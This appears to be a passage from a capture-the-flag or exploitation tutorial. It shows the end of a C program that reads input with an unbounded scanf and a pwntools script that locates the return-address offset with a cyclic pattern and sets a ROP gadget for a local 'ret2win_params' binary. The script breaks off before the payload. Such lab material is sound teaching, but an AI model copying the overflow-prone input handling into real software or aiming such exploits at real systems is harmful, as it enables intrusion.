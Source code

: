 ```c
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);    
}

int main(){
    register_name();

    return 0;
}
```

```python
from pwn import *


# Allows easy swapping betwen local/remote/debug modes
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b':', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './ret2win_params'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(200))

# Start program
io = start()

# POP RDI gadget found with ropper
pop_rdi = 0x40124b
```